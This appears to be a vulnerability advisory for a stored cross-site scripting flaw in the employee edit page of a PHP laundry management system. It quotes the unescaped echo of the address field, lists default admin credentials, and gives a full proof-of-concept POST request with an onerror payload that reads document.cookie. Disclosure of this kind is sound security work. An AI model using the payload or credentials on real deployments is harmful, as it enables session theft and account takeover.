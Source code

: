 Laundry Management System Store XSS (/ci_laundry/karyawan/edit) 

Vendor Homepage:

```
https://www.sourcecodester.com/php-ci-laundry-management-system-source-code
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Crudentials:

```
admin
admin123
```

Affected Page:

```
/ci_laundry/karyawan/edit
```

This code snippet is potentially vulnerable to Cross-Site Scripting (XSS) attacks. The issue lies in the direct output of the `$karyawan->alamat` variable's value into the `value` attribute using `<?php echo $karyawan->alamat ?>`. If `$karyawan->alamat` contains malicious JavaScript code, then this code will be executed when the page loads and renders this `input` tag.

```
                                <div class="form-group">
                                    <label class="control-label ">Address</label>
                                    <input type="text"  class="form-control" placeholder='Employee Address' name="alamat"  value="<?php echo $karyawan->alamat ?>" required>
                                    <div class="invalid-feedback">
                                    Fill in the employee's address!
                                    </div>
                                </div>
```

Proof of vulnerability:

Request:

```
POST /ci_laundry/karyawan/edit HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/jxl,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 198
Origin: http://localhost
Sec-GPC: 1
Connection: close
Referer: http://localhost/ci_laundry/karyawan
Cookie: PHPSESSID=n3ilei2mg7mov24l4ol9itjc14; ci_session=8u304rgjn04iv4m3mrloksfrovf11plm
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

karyawan_id=K002&nama_karyawan=asdasdas&jeniskelamin=Male&alamat="><img+src%3d1+onerror%3dalert(document.cookie)>&no_hp=09123456789&gaji_perbulan=111&tgl_bergabung=2024-04-25&tgl_berhenti=2024-04-26
```

<img width="1345" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/2b31a829-840c-499d-87b1-99da32852f27">
<img width="1321" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/2c859473-dccc-40ca-99c2-4d6d67595b3e">

